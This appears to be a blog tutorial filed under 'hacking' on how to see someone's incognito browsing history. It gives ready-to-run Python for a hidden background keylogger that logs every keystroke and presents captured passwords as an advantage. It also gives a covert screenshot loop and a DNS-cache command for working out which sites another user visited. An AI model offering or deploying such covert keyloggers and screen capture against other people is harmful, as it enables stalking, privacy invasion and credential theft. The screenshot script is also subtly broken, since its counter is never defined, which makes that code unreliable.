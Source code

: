 ```yaml
---
title: See Incognito Browsing History
category: hacking
tags: history incognito
---
```


In contrast to what most people think, seeing the history from an incognito session is not impossible. Actually, it is quite easy if you do it the right way. In this post I will show you some methods to achieve this goal, some that require software and one that you can do right now.

## With software

For this section I will write some Python scripts to get the history of the browser, so I recommend you to install it from here. However, if you do not want to write your own programs, you can also download my programs’ binaries for Windows x64 (not available yet).

### Using a keylogger

One of my favorite methods involves the use of a keylogger. A keylogger is a program that records every key you press in your keyboard, so, using this type of software you can see every website that the user requested. Additionaly, you can also see the credentials typed in the computer.

Let’s start by installing required python modules. First, you need to open your terminal (if you are on Windows you only have to write ‘cmd’ on your search bar and press enter). After that, write the following lines:

```
pip install pynput
```

And press Enter. Once the module was properly installed, you can start writing the code. Create a file called keylogger.pyw and add the following lines to it:

```
from pynput.keyboard import Key,Listener

def press_key(key):
    with open('log.txt','a') as f:
        f.write(str(key) + ' ')

def release_key(key):
    if key == Key.f12:
        return False

with Listener(on_press = press_key, on_release = release_key) as listener:
    listener.join()
```

Now that the program is done you can execute it directly or by typing the following line into the terminal:

```
pythonw keylogger.pyw
```

It will run in the background and if you need to stop it simply press F12 key. The output will be saved in a file called log.txt stored in the same folder as your program.

#### Advantages

- Very precise (only few false-positives)
- Full access to passwords typed
- Low CPU load (runs smoothly)

#### Disadvantages

- Detectable by task manager
- Needs to be run before the user accesses the website

### Using a “screenshoter”

Another program that allows you so see what sites the user visited consists in taking pictures of the computer screen from time to time. So, you will get a screenshot of the site being visited by the user.

As before, we will need a specific module, so let’s start by importing it. Open your terminal and write the following in there:

```
pip install pyscreenshot
```

By the time the module is correctly installed, you can create the file screenshoter.pyw and start writing your code. Unlike the code used to make our keylogger, you must change this program to adjust to your necessities. First, you need to figure out the delay (in seconds) between the screenshots that you prefer and then add it to the code. I will use 60 (a screenshot every minute).

```
import pyscreenshot
import time

if __name__ == '__main__':
    while True:
        img = pyscreenshot.grab()
        img.save('Screenshots/screenshot' + str(num) + '.png')
        time.sleep(60) #change the value 60 to whatever you want
```

After writing the code, you must also create a folder called ‘Screenshots’ in the same directory as your program to store all the pictures taken.

You can execute your script by clicking it or by typing the following in the command line:

```
pythonw screenshoter.pyw
```

#### Advantages

- Direct access to computer screen
- Images are easily understood

#### Disadvantages

- Detectable by task manager
- Needs to be run before the user accesses the website
- Can store huge amounts of images
- The user can access a website for only a few seconds and you will not be able to see it

## Without Software

### Accessing DNS cache

What is DNS? The main function of DNS is to translate domain names into IP Addresses. So, what is DNS cache? It is the way that our computers use to temporarily store it, with the purpose of delivering the websites faster to the user.

To access it, you need to start your terminal (‘cmd’ on Windows) and type the following command into it:

```
ipconfig /displaydns
```

The result should be similar to this:

![Output](/images/incobrow1.png)

As you can see, the only part that really matters to us is the “Record Name”, so, we should implement an output filter. Let’s try the next command, which finds the record name of each entry:

```
ipconfig /displaydns | findstr /C:"Record Name"
```

![Output](/images/incobrow2.png)

Much easier to read, don’t you think? By using this command you should be able to see which sites the user has recently viewed.

#### Advantages

- No need of additional software

#### Disadvantages

- The records are temporary
- Results contain both the domain of the website viewed and the domains of all external references on the page (if you access a site that contains a image from other site, the DNS cache will store both, making it difficult to decide which is the website accessed by the user)